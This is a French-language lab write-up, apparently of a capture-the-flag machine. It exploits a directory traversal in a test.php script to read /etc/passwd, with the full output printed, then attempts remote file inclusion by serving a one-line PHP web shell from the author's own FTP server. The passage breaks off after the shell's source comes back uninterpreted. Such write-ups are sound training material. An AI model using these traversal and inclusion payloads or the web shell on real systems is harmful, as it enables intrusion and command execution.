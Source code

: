 Ni `Wapiti` ni `sqlmap` ne trouvaient de vulnérabilités, j'ai donc décidé de chercher ailleurs.

Ailleurs, c'est le script `test.php` qu'on peut voit dans l'output de Nmap. Cette page retourne le message suivant :

> 'file' parameter is empty. Please provide file path in 'file' parameter

Passer le paramètre via l'URL ne semble avoir aucun effet, mais en le passant par `POST` on obtient une faille de directory traversal :

```console
$ curl http://192.168.56.198/test.php -XPOST --data "file=/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

Prochaine étape : déterminer si on est présence d'une faille d'inclusion ou pas.

Passer une URL http au paramètre `file` semble échouer, mais apparemment il tente quelque chose quand il s'agit d'une URL ftp.

J'ai lancé un serveur FTP de cette façon :

```bash
python3 -m pyftpdlib -p 9999 -r 7777-7777 -D
```

Ici, il écoute sur le port 9999 et le transfert de données doit se faire via le port 7777.

Malheureusement quand je déclenche la récupération du fichier j'obtiens le code PHP et non son interprétation :

```console
$ curl http://192.168.56.198/test.php -XPOST --data "file=ftp://192.168.56.1:9999/shell.php&cmd=id"
<?php system($_POST["cmd"]); ?>
```
